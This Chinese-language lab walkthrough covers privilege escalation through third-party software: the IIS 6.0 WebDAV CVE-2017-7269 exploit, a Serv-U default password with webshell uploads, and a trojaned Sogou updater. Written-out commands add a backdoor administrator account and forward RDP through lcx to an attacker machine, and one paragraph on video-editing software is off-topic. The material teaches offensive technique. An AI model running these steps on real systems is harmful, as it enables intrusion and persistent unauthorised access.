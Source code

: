 **前言**  
在入侵过程中，通过各种办法和漏洞，提高攻击者在服务器中的权限，从而以便控制全局的过程就叫做提权。例如：windows系统---&gt;user(guest)---&gt;system;Linux系统---&gt;user---&gt;root  
在web渗透中，从最开始的webshell获取的权限可能仅仅是中间件的权限，可执行的操作控制有限，攻击者往往会通过提权的方式来提升已有的权限，从而执行更多的操作。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-5294410eebd8595b16cc012591cca1d8dd366b3c.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-5294410eebd8595b16cc012591cca1d8dd366b3c.png)  
**提权的方法**

> 一、系统漏洞提权  
> （1）获取操作系统类型以及版本号  
> （2）根据获取的系统版本号在互联网搜索exp  
> （3）尝试利用exp获取权限  
> （4）尝试反弹shell  
> 二、数据库提权  
> （1）mysql数据库——udf提权  
> （2）数据库提权——mof提权  
> （3）数据库提权——反弹端口提权  
> （4）数据库提权——启动项提权  
> 三、第三方软件/服务提权  
> （1）通过第三方软件漏洞进行提权  
> （2）通过服务端口、服务协议漏洞进行提权

**第三方软件提权**  
第三方软件指的是该非线性编辑系统生产商以外的软件公司\[/url\]提供的软件，功能十分强大，有些甚至是从工作站转移过来的，可以这么说，非线性编辑系统之所以能做到效果变幻莫测，匪夷所思，吸引众人的视线，完全取决于第三方软件。第三方软件提权，就是利用第三方软件存在的漏洞来进行获取一个权限的操作。

**中间件IIS版本漏洞提权  
提权思路：**  
IIS 6.0默认不开启WebDAV,一旦开启了WebDAV,安装了IIS6.0的服务器将可能受到该漏洞的威胁。  
首先对目标靶机进行一个信息收集，通过椰树发现SQL注入漏洞和IIS写漏洞权限  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-9095ecde7683297f97d09b8e2c5075db20d89c71.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-9095ecde7683297f97d09b8e2c5075db20d89c71.png)  
通过椰树软件读取web环境，发现组件IIS6.0  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-d4373f5fd6716ddf331dc888a4bc777c775c4b0f.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-d4373f5fd6716ddf331dc888a4bc777c775c4b0f.png)  
`nmap -sV O 10.10.10.130扫描版本信息`  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-81056b0a3eefcaa859c15321587e82fa7b68bbf7.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-81056b0a3eefcaa859c15321587e82fa7b68bbf7.png)  
`nmap --script=vuln 10.10.10.130扫描可能存在的漏洞`  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-1c261d90e9c4b2633a3c93cd5468f0351f673fae.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-1c261d90e9c4b2633a3c93cd5468f0351f673fae.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-0e169e6e0b220114d446a372685d47c5e5204f85.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-0e169e6e0b220114d446a372685d47c5e5204f85.png)  
`exp代码下载https://github.com/zcgonvh/cve-2017-7269`  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-1dd9ab77691b78a4368b478223e9b1cac3ef5b6f.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-1dd9ab77691b78a4368b478223e9b1cac3ef5b6f.png)  
把下载好的exp 复制到攻击机器的`/usr/share/metasploit-framework`  
`/modules/exploits/windows/iis`目录下  
Kali运行`use exploit/windows/iis/cve_2017_7269`,然后执行exploit模块添加参数信息  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-65af6bbb59e7cf22e706af1db3684ccf68a0e57e.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-65af6bbb59e7cf22e706af1db3684ccf68a0e57e.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-32b299afe2c3ac27f5b801b81dbc5173e4ba9fa6.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-32b299afe2c3ac27f5b801b81dbc5173e4ba9fa6.png)  
exploit攻击成果后进入到meterpreter界面  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-5c70367bb3961147e273dd56adeb283ee91b44d8.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-5c70367bb3961147e273dd56adeb283ee91b44d8.png)  
在靶机上创建一个文件夹su，并将iis62.exe上传到文件夹中用于提权操作  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-5e5cb647cee6d9883ba937702f27c3032bffd661.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-5e5cb647cee6d9883ba937702f27c3032bffd661.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-f8e84a7174c8c572c0d8aaad417f885326854b5c.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-f8e84a7174c8c572c0d8aaad417f885326854b5c.png)  
利用iis62.exe可以做到提权的操作，添加系统用户等等  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-32fa4dffed50183e14e1871dc664ca9cfe1560b9.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-32fa4dffed50183e14e1871dc664ca9cfe1560b9.png)  
`iis62.exe “net user su su123/add”添加用户su，密码为su123`  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-71544ecbbf756969f26ccf6b3f2761848cf99ccd.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-71544ecbbf756969f26ccf6b3f2761848cf99ccd.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-8a575b66ee913d597f305c8b8b219ed533c301d6.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-8a575b66ee913d597f305c8b8b219ed533c301d6.png)  
将su用户添加到系统组  
`Iis62.exe “net localgroup administrators su /add”`  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-1df288d8e6d83a0262e21abd68f2373d92a27df2.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-1df288d8e6d83a0262e21abd68f2373d92a27df2.png)  
`net localgroup administrators查看系统组下有没有添加成功`  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-008810834801971a2365d1cb6255cf48b31602d0.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-008810834801971a2365d1cb6255cf48b31602d0.png)  
在靶机上输入以下命令，让靶机开启远程端口转发  
`lcx.exe -slave 192.168.0.106 4444 10.10.10.130 3389`，将目标靶机的3389端口转发到本机的4444端口上  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-903f55839b75a6925b4a4001f2a5db0bd15fd54b.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-903f55839b75a6925b4a4001f2a5db0bd15fd54b.png)  
在攻击机输入以下命令，开启端口监听  
`lcx.exe -listen 4444 33891`  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-5b625d203a2b87178717679c2a2cf815b6151fd9.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-5b625d203a2b87178717679c2a2cf815b6151fd9.png)  
开启远程命令，连接上靶机并输入账户密码即可  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-1e9df3c2303a5046b8fdfa25e73b319e6a0892a6.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-1e9df3c2303a5046b8fdfa25e73b319e6a0892a6.png)

**Server-U提权  
提权思路：**  
Serv-U是一种被广泛运用的FTP服务器软件，以系统用户身份执行远程代码。  
Server-U默认帐号密码LocalAdministrator/#l@$ak#.lk;0@P 如果被修改了，可下载安装目录下的serverAdmin.exe 使用16进制查看器（winHex）打开，查找LocalAdministrator在后面便可看到相应的密码  
在上传小马文件shell.aspx后再上传一个大马文件，利用该大马文件的模块servu-提权来创建系统用户  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-edf77e1c26feeae231a3990da2e4e60ad90703ff.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-edf77e1c26feeae231a3990da2e4e60ad90703ff.png)  
可以利用servu模块执行cmd命令，添加用户执行成功  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-8660a2520ff84436f9f32e59a6510babc31d67ea.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-8660a2520ff84436f9f32e59a6510babc31d67ea.png)  
看看系统用户发现添加成功  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-8117e48cfd711126968df57c777dc006445fbf9f.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-8117e48cfd711126968df57c777dc006445fbf9f.png)  
在shell界面也能看到添加了系统用户flag  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-90ec4565067c05208caab4967580c56d9587268f.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-90ec4565067c05208caab4967580c56d9587268f.png)

**Sogou输入法提权  
提权思路**  
由于搜狗输入法默认设置是自动更新（很少有人去更改这个设置），更新程序没有对exe做任何校验直接在输入法升级时调用运行，导致可以执行恶意代码。  
在获取webshell的前提下，在D盘下找到了搜狗的路径  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-66398567ee3715bb0a6166ce32839161f390d588.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-66398567ee3715bb0a6166ce32839161f390d588.png)  
编辑一个PinyinUp的bat文件，通过转义软件编译成PinyinUp.exe，里面存放着恶意代码  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-98fff367a1ab5311447442cdc5ddbaeac244ed86.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-98fff367a1ab5311447442cdc5ddbaeac244ed86.png)  
上传我们的PinyinUp.exe文件，把之前搜狗路径下的PinyinUp文件改个名字  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-5dcb5d8cb6428333df723dddbad2ffb7bd10dd27.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-5dcb5d8cb6428333df723dddbad2ffb7bd10dd27.png)  
当用户更新词库的时候就会调用我们的PinyinUp.exe程序，然后生成用户密码  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-0ba350f7b5eb0848b63ce4274c414a2c86980be8.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-0ba350f7b5eb0848b63ce4274c414a2c86980be8.png)  
用户添加成功  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-45cea1834143c40846382907a8ca65d3275051c0.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-45cea1834143c40846382907a8ca65d3275051c0.png)  
**总结**  
第三方软件提权，就是利用第三方软件存在的漏洞来进行获取一个权限的操作，攻击者可以跟进出现的软件漏洞，对未升级的软件进行一个漏洞利用。